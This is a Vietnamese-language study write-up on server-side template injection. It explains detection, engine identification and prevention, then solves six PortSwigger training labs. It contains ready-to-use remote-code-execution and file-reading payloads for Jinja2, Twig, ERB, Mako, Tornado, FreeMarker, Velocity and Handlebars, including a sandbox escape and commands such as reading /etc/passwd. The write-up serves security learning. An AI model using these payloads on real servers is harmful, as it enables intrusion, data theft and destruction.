



# Task 6

## Tìm hiểu về lỗ hổng Server-Side Template Injection (SSTI)

### Server-Side Template Injection là gì?

Server-side template injection (SSTI) là khi attacker có thể sử dụng cú pháp template để tiêm một payload độc hại vào một template, sau đó template này sẽ được thực thi ở phía server.

Template engine được thiết kế để tạo ra các trang web bằng cách kết hợp với các template cố định với dữ liệu dễ thay đổi. Các cuộc tấn công server-side template injection có thể xảy ra khi dữ liệu đầu vào của người dùng được nối trực tiếp vào một template thay vì được truyền vào dưới dạng dữ liệu. Điều này cho phép attacker tiêm các chỉ thị template tuỳ ý để thao túng template engine và thường cho phép attacker kiểm soát hoàn toàn server. Như tên gọi của nó cho thấy, SSTI payload được gửi và đánh giá ở phía server, khiến nó nguy hiểm hơn client-side template injection.

### Tác động của Server-Side Template Injection

Các lỗ hổng server-side template injection có thể khiến các trang web gặp nhiều cuộc tấn công khác nhau tuỳ thuộc vào template engine được sử dụng và cách ứng dụng sử dụng nó một các chính xác. Trong một số trường hợp hiếm hoi, lỗ hổng này không gây ra rủi ro bảo mật thực sự. Tuy nhiên, trong hầu hết các trường hợp, tác động của server-side template injection có thể rất khốc.

Ở mức độ nghiêm trọng nhất, attacker có khả năng thực thi mã từ xa, chiếm toàn quyền kiểm soát server và sử dụng nó để thực hiện các cuộc tấn công khác nhằm vào cơ sở hạ tầng nội bộ.

Ngay cả trong trường hợp không thể thực thi mã từ xa, attacker vẫn có thể sử dụng server-side template injection làm cơ sở cho nhiều cuộc tấn công khác, có khả năng đọc các dữ liệu nhạy cảm và các file tuỳ ý trên server.

### Lỗ hổng Server-Side Template Injection xảy ra như thế nào?

Lỗ hổng SSTI xảy ra khi dữ liệu đầu vào của người dùng được nối vào các mẫu thay vì được truyền vào dưới dạng dữ liệu.

Các template tĩnh đơn giản chỉ cung cấp placeholder để hiển thị nội dung động thường không dính lỗi SSTI. Ví dụ, một email chào mừng từng người dùng bằng tên của họ, chẳng hạn như đoạn template Twig sau:

```php
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```

Đoạn code trên không dính SSTI bởi vì tên người dùng chỉ được truyền nào template dưới dạng dữ liệu.

Tuy nhiên, vì các template là các chuỗi nên các nhà phát triển web đôi khi ghép trực tiếp dữ liệu đầu vào của người dùng vào template trước khi render. Ví dụ, người dùng có thể chọn tên trước khi email được gửi:

```php
$output = $twig->render("Dear " . $_GET['name']);
```

Trong ví dụ này, thay vì một giá trị tĩnh được truyền vào template thì một phần của template đó lại được tạo động bằng cách sử dụng tham số `name`. Vì template được đánh giá ở phía server, điều này có thể cho phép attacker đặt một SSTI payload vào tham số `name` như sau:

```text
http://vulnerable-website.com/?name={{bad-stuff-here}}
```

Những lỗ hổng như thế này đôi khi vô tình xảy ra do thiết kế template kém của những người không quen với các tác động bảo mật. Giống như trong ví dụ trên, chúng ta có thể thấy các thành phần khác nhau, một số thành phần chứa đầu vào của người dùng, được nối và nhúng vào template. Ở một khía cạnh nào đó, điều này tương tự như các lỗ hổng SQL injection xảy ra trong các câu lệnh prepared statement được viết không phù hợp.

Tuy nhiên, đôi khi hành vi này thực sự được thực hiện có chủ ý. Ví dụ, một số trang web sẽ cho phép một số người dùng có đặc quyền nhất định, chẳng hạn như người chỉnh sửa nội dung, chỉnh sửa hoặc gửi template tùy chỉnh theo thiết kế. Điều này rõ ràng gây ra rủi ro bảo mật rất lớn nếu attacker có thể xâm phạm tài khoản có các đặc quyền như vậy.

### Xây dựng một cuộc tấn công Server-Side Template Injection

Việc xác định các lỗ hổng SSTI và thực hiện một cuộc tấn công thành công thường bao gồm quy trình sau đây:


#### Detect

Các lỗ hổng SSTI thường không được chú ý không phải vì chúng phức tạp mà vì chúng chỉ thực sự rõ ràng đối với những kiểm tra viên đang tìm kiếm chúng. Nếu chúng ta có thể phát hiện ra có một lỗ hổng bảo mật thì việc khai thác nó có thể dễ dàng một cách đáng ngạc nhiên. Điều này đặc biệt đúng trong môi trường không có sandbox.

Giống như bất kỳ lỗ hổng nào, bước đầu tiên để khai thác là chúng ta có thể tìm ra nó. Cách tiếp cận ban đầu đơn giản nhất là thử fuzzing template bằng cách chèn một chuỗi các kí tự đặc biệt thường được sử dụng trong các biểu thức mẫu, chẳng hạn như `${{<%[%'"}}%\`. Nếu có một ngoại lệ xảy ra, điều này cho chúng ta biết cú pháp template được chèn có khả năng được server diễn giải theo một cách nào đó. Đây là một dấu hiệu cho thấy lỗ hổng SSTI có thể tồn tại.

Lỗ hổng SSTI xảy ra trong hai bối cảnh riêng biệt, mỗi bối cảnh lại yêu cầu phương pháp phát hiện riêng. Bất kể kết quả của nỗ lực fuzzing là gì, điều quan trọng là chúng ta phải thử các phương pháp tiếp cận theo bối cảnh cụ thể sau đây. Nếu việc fuzzing không thể kết luận được thì một lỗ hổng vẫn có thể tự lộ diện khi sử dụng một trong những phương pháp này. Ngay cả khi fuzzing đã gợi ý lỗ hổng chèn template, chúng ta vẫn cần xác định bối cảnh của nó để khai thác.

##### Plaintext context

Hầu hết các ngôn ngữ template cho phép chúng ta tự do nhập nội dung bằng cách sử dụng trực tiếp thẻ HTML hoặc bằng cách sử dụng cú pháp gốc của template, cú pháp này sẽ được kết xuất thành HTML ở back-end trước khi HTTP response được gửi. Ví dụ, trong FreeMarker, dòng `render('Hello ' + username)` sẽ kết xuất thành một chuỗi nào đó, chẳng hạn như `Hello Carlos`.

Điều này đôi khi có thể bị khai thác để tấn công XSS và trên thực tế thường bị nhầm lẫn với một lỗ hổng XSS đơn giản. Tuy nhiên, bằng cách đặt các phép toán làm giá trị của tham số, chúng ta có thể kiểm tra xem đây có phải là điểm truy cập tiềm năng cho một cuộc tấn công SSTI hay không.

Ví dụ, hãy xem xét một template có chứa đoạn mã dễ bị dính lỗ hổng sau:

```text
render('Hello ' + username)
```

Trong quá trình kiểm tra, chúng ta có thể kiểm tra SSTI bằng cách request một URL như sau:

```text
http://vulnerable-website.com/?username=${7*7}
```

Nếu kết quả đầu ra chứa `Hello 49`, điều này cho thấy phép toán đang được đánh giá ở phía server. Đây là một dấu hiệu tốt cho lỗ hổng SSTI.

Chúng ta cần lưu ý cú pháp cụ thể cần thiết để đánh giá thành công phép toán sẽ khác nhau tùy thuộc vào template engine nào đang được sử dụng.

##### Code context

Trong các trường hợp khác, lỗ hổng bị tiết lộ do dữ liệu đầu vào của người dùng được đặt trong một biểu thức template, như chúng ta đã thấy trước đó với ví dụ về email. Điều này có thể ở dạng tên biến do người dùng kiểm soát được đặt bên trong một tham số, chẳng hạn như sau:

```text
greeting = getQueryParameter('greeting')
engine.render("Hello {{"+greeting+"}}", data)
```

Trên trang web, URL kết quả sẽ giống như sau:

```text
http://vulnerable-website.com/?greeting=data.username
```

Chúng ta có thể thấy `Hello Carlos` xuất hiện trong trang web.

Bối cảnh này dễ bị bỏ qua trong quá trình đánh giá vì nó không dẫn đến XSS rõ ràng và gần như không thể phân biệt được với tra cứu hashmap đơn giản. Một phương pháp kiểm tra SSTI trong bối cảnh này là trước tiên chúng ta phải xác định rằng tham số không chứa lỗ hổng XSS trực tiếp bằng cách chèn HTML tùy ý vào giá trị:

```text
http://vulnerable-website.com/?greeting=data.username<tag>
```

Trong trường hợp không dính XSS, điều này thường sẽ dẫn đến một mục trống ở đầu ra (chỉ có `Hello`), các thẻ được mã hóa hoặc có thông báo lỗi. Bước tiếp theo là thử thoát ra khỏi câu lệnh bằng cách sử dụng cú pháp template và thử chèn HTML tùy ý vào sau nó:

```text
http://vulnerable-website.com/?greeting=data.username}}<tag>
```

Nếu điều này lại dẫn đến lỗi hoặc đầu ra trống, thì chúng ta đã sử dụng cú pháp template sai hoặc nếu không có cú pháp template nào hợp lệ thì việc chèn template phía server là không thể. Ngoài ra, nếu kết quả đầu ra được hiển thị chính xác, cùng với HTML tùy ý, thì đây là dấu hiệu chính cho thấy có tồn tại lỗ hổng SSTI:

```text
Hello Carlos<tag>
```

#### Identify

Khi chúng đã phát hiện ra có khả năng chèn template, bước tiếp theo là xác định template engine.

Mặc dù có rất nhiều ngôn ngữ template nhưng nhiều ngôn ngữ trong số đó sử dụng cú pháp rất giống nhau, được chọn đặc biệt để không xung đột với các ký tự HTML. Do đó, việc tạo các payload thăm dò để kiểm tra template engine nào đang được sử dụng có thể tương đối đơn giản.

Thông thường, chúng ta chỉ cần gửi cú pháp không hợp lệ là đủ vì thông báo lỗi thu được sẽ cho chúng ta biết chính xác template engine là gì và đôi khi là cả phiên bản nào. Ví dụ, biểu thức không hợp lệ `<%=foobar%>` sẽ trigger response sau từ ERB engine dựa trên Ruby:

```text
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```

Nếu không, chúng ta sẽ cần phải kiểm tra thủ công các payload dành riêng cho ngôn ngữ khác nhau và nghiên cứu cách chúng được hiểu bởi template engine . Sử dụng quy trình loại bỏ dựa trên cú pháp nào có vẻ hợp lệ hoặc không hợp lệ, chúng ta có thể thu hẹp các tùy chọn nhanh hơn chúng ta nghĩ. Cách phổ biến để thực hiện việc này là đưa vào các phép toán tùy ý bằng cách sử dụng cú pháp từ các template engine khác nhau. Sau đó chúng ta có thể quan sát xem chúng có được đánh giá thành công hay không. Để trợ giúp quá trình này, chúng ta có thể sử dụng cây quyết định tương tự như sau:


Chúng ta nên lưu ý rằng cùng một payload đôi khi có thể trả về một phản hồi thành công trong nhiều ngôn ngữ template. Ví dụ, payload `{{7*'7'}}` trả về `49` trong Twig và `7777777` trong Jinja2. Vì vậy, điều quan trọng là không nên vội kết luận chỉ dựa trên một phản hồi thành công duy nhất.

#### Exploit

Sau khi chúng ta phát hiện được sự tồn tại của một lỗ hổng tiềm ẩn và xác định thành công template engine, chúng ta có thể bắt đầu tìm cách khai thác nó.

### Khai thác lỗ hổng Server-Side Template Injection

Khi chúng ta phát hiện ra lỗ hổng SSTI, và xác định được template engine đang được sử dụng thì một cuộc khai thác thành công sẽ liên quan đến quá trình sau:

#### Đọc tài liệu

Trừ khi chúng ta đã biết rõ về template engine, việc đọc tài liệu của nó là bước đầu tiên để bắt đầu. Mặc dù đây không phải là cách thú vị nhất nhưng điều quan trọng là chúng ta không được đánh giá thấp nguồn thông tin hữu ích mà tài liệu có thể mang lại.

##### Học cú pháp template cơ bản

Học cú pháp cơ bản rõ ràng là quan trọng, cùng với các hàm chính và cách xử lý các biến. Ngay cả những việc đơn giản như học cách nhúng các khối mã gốc vào template đôi khi cũng có thể nhanh chóng dẫn đến việc khai thác. Ví dụ, khi chúng ta biết rằng template engine Mako dựa trên Python đang được sử dụng, việc thực thi mã từ xa có thể đơn giản như sau:

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

Trong môi trường không có sandbox, việc thực thi mã từ xa và sử dụng mã đó để đọc, chỉnh sửa hoặc xóa các file tùy ý cũng đơn giản tương tự như trong nhiều template engine phổ biến.

##### Đọc về phần bảo mật trong tài liệu

Ngoài việc cung cấp các nguyên tắc cơ bản về cách tạo và sử dụng template, tài liệu cũng có thể cung cấp một số loại phần "Security". Tên của phần này sẽ khác nhau nhưng thường sẽ phác thảo tất cả những điều nguy hiểm tiềm tàng mà mọi người nên tránh thực hiện với template. Đây có thể là một nguồn tài nguyên vô giá, thậm chí hoạt động như một loại bảng ghi nhớ những hành vi mà chúng ta nên tìm kiếm trong quá trình kiểm tra cũng như cách khai thác chúng.

Ngay cả khi không có phần "Security" dành riêng, nếu một object hoặc function tích hợp cụ thể có thể gây ra rủi ro bảo mật thì hầu như sẽ luôn có một loại cảnh báo nào đó trong tài liệu. Cảnh báo có thể không cung cấp nhiều chi tiết, nhưng ít nhất nó phải gắn cờ phần tích hợp cụ thể này là nội dung cần chú ý.

Ví dụ, trong ERB, tài liệu cho biết rằng chúng ta có thể liệt kê tất cả các thư mục và sau đó đọc các file tùy ý như sau:

```ruby
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

##### Tìm kiếm các cuộc khai thác trước đó

Một khía cạnh quan trọng khác của việc khai thác các lỗ hổng SSTI là khả năng tìm kiếm các tài nguyên bổ sung trực tuyến. Sau khi có thể xác định template engine đang được sử dụng, chúng ta nên tìm kiếm bất kỳ lỗ hổng nào mà người khác có thể đã phát hiện ra. Do việc sử dụng rộng rãi một số template engine, đôi khi có thể tìm thấy các cách khai thác được ghi chép rõ ràng mà chúng ta có thể điều chỉnh để khai thác trang web mục tiêu của riêng mình.

#### Khám phá

Tại thời điểm này, chúng ta có thể đã tình cờ phát hiện ra một cách khai thác khả thi bằng cách sử dụng tài liệu. Nếu không, bước tiếp theo là khám phá môi trường và cố gắng khám phá tất cả các đối tượng mà chúng ta có quyền truy cập.

Nhiều template engine có một loại đối tượng, hoạt động giống như một namespace chứa tất cả các object, method và property được template engine hỗ trợ. Nếu một đối tượng như vậy tồn tại, chúng ta có thể sử dụng nó để tạo danh sách các đối tượng nằm trong phạm vi. Ví dụ, trong các ngôn ngữ template dựa trên Java, đôi khi chúng ta có thể liệt kê tất cả các biến trong môi trường bằng cách sử dụng payload sau:

```java
${T(java.lang.System).getenv()}
```

Điều này có thể giúp chúng ta tạo ra một danh sách rút gọn các object và method thú vị để điều tra thêm.

##### Object được cung cấp bởi lập trình viên

Điều quan trọng cần lưu ý là các trang web sẽ chứa cả các object tích hợp do template cung cấp và các object tùy chỉnh, dành riêng cho trang web đã được nhà phát triển web cung cấp. Chúng ta nên đặc biệt chú ý đến những object không chuẩn này vì chúng có khả năng chứa thông tin nhạy cảm hoặc các method có thể bị khai thác. Vì các object này có thể khác nhau giữa các template khác nhau trong cùng một trang web, hãy lưu ý rằng chúng ta có thể cần nghiên cứu hành vi của object trong bối cảnh của từng template riêng biệt trước khi đi tìm cách khai thác nó.

Mặc dù khai thác SSTI có khả năng dẫn đến việc thực thi mã từ xa và tiếp quản hoàn toàn server, nhưng trên thực tế, điều này không phải lúc nào cũng có thể đạt được. Tuy nhiên, chỉ vì chúng ta đã loại trừ khả năng thực thi mã từ xa, điều đó không có nghĩa là không có tiềm năng cho một kiểu khai thác khác. Chúng ta vẫn có thể tận dụng các lỗ hổng SSTI để thực hiện các cuộc tấn công có mức độ nghiêm trọng cao khác, chẳng hạn như path traversal, để có quyền truy cập vào dữ liệu nhạy cảm.

#### Tạo một cuộc tấn công tuỳ chỉnh

Đôi khi chúng ta cần xây dựng một cách khai thác SSTI tuỳ chỉnh. Ví dụ, chúng ta có thể thấy template engine thực thi các template bên trong sandbox, điều này có thể khiến việc khai thác trở nên khó khăn hoặc thậm chí là không thể.

Nếu không có một cách rõ ràng để khai thác lỗ hổng, chúng ta nên tiến hành các kĩ thuật kiểm tra bằng cách xem xét từng chức năng để biết hành vi nào có thể khai thác được. Bằng cách thực hiện một cách có phương pháp thông qua quy trình này, đôi khi chúng ta có thể xây dựng một cuộc tấn công phức tạp, thậm chí có thể khai thác các mục tiêu an toàn hơn.

##### Xây dựng một cách khai thác tuỳ chỉnh sử dụng object chain

Như đã mô tả ở trên, bước đầu tiên là xác định các object và method mà chúng ta có quyền truy cập. Một số object có thể ngay lập tức trở nên thú vị. Bằng cách kết hợp kiến thức của riêng chúng ta và thông tin được cung cấp trong tài liệu, chúng ta sẽ có thể tập hợp một danh sách ngắn các đối tượng mà chúng ta muốn điều tra kỹ lưỡng hơn.

Khi nghiên cứu tài liệu về các object, hãy đặc biệt chú ý đến những method mà các object này cấp quyền truy cập cũng như những object mà chúng trả về. Bằng cách đi sâu vào tài liệu, chúng ta có thể khám phá sự kết hợp của các object và method mà chúng ta có thể xâu chuỗi lại với nhau. Việc kết hợp các object và method phù hợp đôi khi cho phép chúng ta có quyền truy cập vào chức năng nguy hiểm và dữ liệu nhạy cảm mà ban đầu có vẻ ngoài tầm với.

Ví dụ, trong template engine Velocity dựa trên Java, chúng ta phải truy cập vào một object `ClassTool` được gọi là `$class`. Việc nghiên cứu tài liệu sẽ giúp chúng ta hiểu rằng có thể nối method `$class.inspect()` và property `$class.type` để có thể tham chiếu đến object tuỳ ý. Trong quá khứ, điều này đã được khai thác để thực thi lệnh shell từ xa trên hệ thống mục tiêu:

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```

##### Xây dựng một cách khai thác tuỳ chỉnh sử dụng object được cung cấp bởi lập trình viên

Theo mặc định, một số template engine chạy trong môi trường an toàn, bị khóa để giảm thiểu rủi ro liên quan nhiều nhất có thể. Mặc dù điều này gây khó khăn cho việc khai thác các template như vậy để thực thi mã từ xa, nhưng các object do nhà phát triển tạo vẫn có thể bị khai thác.

Tuy nhiên, trong khi tài liệu quan trọng thường được cung cấp cho các template có sẵn, các object dành riêng cho trang web gần như không được ghi lại. Do đó, việc tìm ra cách khai thác chúng sẽ yêu cầu chúng ta điều tra hành vi của trang web theo cách thủ công để xác định vùng tấn công và xây dựng cách khai thác tùy chỉnh của riêng mình sao cho phù hợp.

#### Payload khai thác trong một số template engine

##### Jinja2

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

##### Twig

```php
{{['id']|filter('system')}}
```

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

##### ERB

```ruby
<%= system('cat /etc/passwd') %>
```

```ruby
<%= `ls /` %>
```

### Cách ngăn chặn lỗ hổng Server-Side Template Injection

Cách tốt nhất để ngăn chặn SSTI là không cho phép bất kỳ người dùng nào sửa đổi hoặc gửi template mới. Tuy nhiên, điều này đôi khi không thể tránh khỏi do yêu cầu kinh doanh.

Một trong những cách đơn giản nhất để tránh tạo ra các lỗ hổng SSTI là luôn sử dụng template engine "không logic", chẳng hạn như Mustache, trừ khi thực sự cần thiết. Việc tách logic càng nhiều càng tốt có thể giúp chúng ta giảm đáng kể khả năng gặp phải các cuộc tấn công SSTI nguy hiểm nhất.

Một biện pháp khác là chỉ thực thi mã của người dùng trong môi trường sandbox, nơi các mô-đun và chức năng tiềm ẩn nguy hiểm đã bị loại bỏ hoàn toàn.

Cuối cùng, một cách tiếp cận bổ sung khác là chấp nhận việc thực thi mã tùy ý là điều không thể tránh khỏi và áp dụng sandbox của riêng chúng ta bằng cách triển khai môi trường template trong Docker container.

### Nguồn tham khảo

- <https://portswigger.net/web-security/server-side-template-injection>
- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md>

## Giải các bài lab Server-Side Template Injection của PortSwigger

### Lab 1: [Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

> This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.
>
> To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

Truy cập vào lab, em thấy trang web như sau:


Sau khi em nhấn vào "View details" thì nhận được thông báo "Unfortunately this product is out of stock" như sau:


Khả năng cao là chúng ta có thể thực hiện khai thác SSTI tại URL này nên em gửi request đó tới Repeater để tiến hành khai thác.

Trước tiên, em đổi giá trị của tham số `message` thành `<% abc %>` rồi gửi request thì thấy lỗi được trả về. Từ đó, em xác định template engine đang được sử dụng là ERB:


Tiếp theo, em sử dụng payload `<% system("ls -la") %>` xác định được có một file `morale.txt`:


Để xoá được file đó, em gửi request sử dụng payload `<% system("rm morale.txt") %>`:


Như vậỵ, em đã giải được bài lab:


### Lab 2: [Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

> This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.
>
> You can log in to your own account using the following credentials: `wiener:peter`.
>
> **Hint**
>
> Take a closer look at the "preferred name" functionality.

Truy cập vào lab, em thấy trang web như sau:


Em đăng nhập với tài khoản được cung cấp `wiener:peter` thấy được giao diện sau:


Tại đó, chúng ta có thể lựa chọn tên để hiển thị ở mục bình luận trong bài viết, em để mặc định là "Name". Quay trở lại trang chủ và chọn một bài viết rồi bình luận thử "hihi":


Bên dưới là request khi nhấn "Submit" để xác nhận tên hiển thị:


Em gửi request đó sang Repeater rồi gửi request với payload `{abc}`:


Em reload trang vừa vào bình luận thì nhận được thông báo lỗi:


Như vậy, em xác định được trang web sử dụng Tornado template. Tiếp theo, em sử dụng payload `{{7*7}}` để kiểm tra phép toán có được thực hiện hay không:


Quay trở lại xem thì em vẫn thấy dính lỗi:


Thông báo lỗi cú pháp chắc là do chưa đóng dấu ngoặc phù hợp nên em đổi payload thành `}}{{7*7}}`:


Vậy là phép toán đã được xử lý thành công:


Tiếp đến, em sử dụng payload `}}{{ os.system("ls -la") }}` xác định được có file `morale.txt`:


Để xoá file đó em dùng payload `}}{{ os.system("rm morale.txt") }}`:


Cuối cùng, em đã giải được bài lab:


### Lab 3: [Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

> This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.
>
> You can log in to your own account using the following credentials: `content-manager:C0nt3ntM4n4g3r`.
>
> **Hint**
>
> You should try solving this lab using only the documentation. However, if you get really stuck, you can try finding a well-known exploit by @albinowax that you can use to solve the lab.

Truy cập vào lab, em thấy trang web như sau:



Em đăng nhập với tài khoản được cung cấp `content-manager:C0nt3ntM4n4g3r` rồi vào xem một bài viết thì có mục "Edit template":


Sau khi nhấn "Edit template" em thấy xuất hiện một vùng văn bản cho phép chỉnh sửa template:


Em xoá hết và đổi thành `${abc}`:


Khi nhấn "Preview" em thấy được thông báo lỗi hiện lên:


Như vậy đã xác định được template engine mà trang web đang sử dụng là FreeMarker.

Em đổi thành `${7*7}` và nhấn "Preview" thì thấy phép tính đã được thực hiện thành công:


Sử dụng payload `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}` rồi nhấn "Save" em đã giải được bài lab:


### Lab 4: [Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

> This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

Truy cập vào lab, em thấy trang web như sau:


Sau khi em nhấn vào "View details" thì nhận được thông báo "Unfortunately this product is out of stock" như sau:


Tương tự như lab 1, em gửi request đó tới Repeater để khai thác.

Em đổi giá trị của tham số message thành `{{7*7}}` rồi gửi request thì thấy thông báo lỗi được trả về:


Em xác định được trang web đang sử dụng Handlebars nên em sử dụng payload sau để khai thác:

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Em encode URL payload trên và truyền vào message rồi gửi request:


Cuối cùng, em đã giải được bài lab:


### Lab 5: [Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

> This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.
>
> To solve the lab, steal and submit the framework's secret key.
>
> You can log in to your own account using the following credentials: `content-manager:C0nt3ntM4n4g3r`.

Truy cập vào lab, em thấy trang web như sau:


Em đăng nhập vào tài khoản được cung cấp `content-manager:C0nt3ntM4n4g3r`. Tiếp theo, em quay trở lại trang chủ và chọn "View details" sản phẩm đầu tiên thì em thấy có chức năng chỉnh sửa template:


Em nhấn "Edit template" thấy xuất hiện vùng văn bản cho phép chúng ta nhập được như sau:


Em xoá hết đi và thử nhập `{{7*7}}` rồi nhấn "Preview" thì thấy xuất hiện thông báo lỗi:


Từ lỗi đó, em xác định rằng trang web đang sử dụng Django.

Em tìm kiếm cách để lấy được secret key trong Django thì tìm thấy trang [Stack Overflow](https://stackoverflow.com/questions/7382149/whats-the-purpose-of-django-setting-secret-key). Do đó, em sử dụng payload `{{ settings.SECRET_KEY }}` và nhấn "Preview" đã thấy secret key:


Submit solution với `fixaf6lzdvznux1jj65p1luj1u5y0d14` em đã giải được bài lab:


### Lab 6: [Server-side template injection in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

> This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file `my_password.txt` from Carlos's home directory. Then submit the contents of the file.
>
> You can log in to your own account using the following credentials: `content-manager:C0nt3ntM4n4g3r`.

Truy cập vào lab, em thấy trang web như sau:


Em đăng nhập vào tài khoản được cung cấp `content-manager:C0nt3ntM4n4g3r`. Quay trở lại trang chủ, em chọn "View details" trên sản phẩm đầu tiên thì thấy có chức năng chỉnh sửa template:


Sau khi nhấn "Edit template" sẽ xuất hiện vùng văn bản cho phép chúng ta nhập được như sau:


Em xoá hết đi và thử với payload `${abc}` thì thấy thông báo lỗi xuất hiện:


Từ đó, em xác định được template engine mà trang web đang sử dụng là FreeMarker.

Để đọc được nội dung của file `my_password.txt` em sử dụng payload `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}`:


Sau đó, em sử dụng chức năng ASCII To Text ở trang [Duplichecker](https://www.duplichecker.com/ascii-to-text.php) để chuyển đổi đoạn mã ASCII trên về văn bản bình thường:


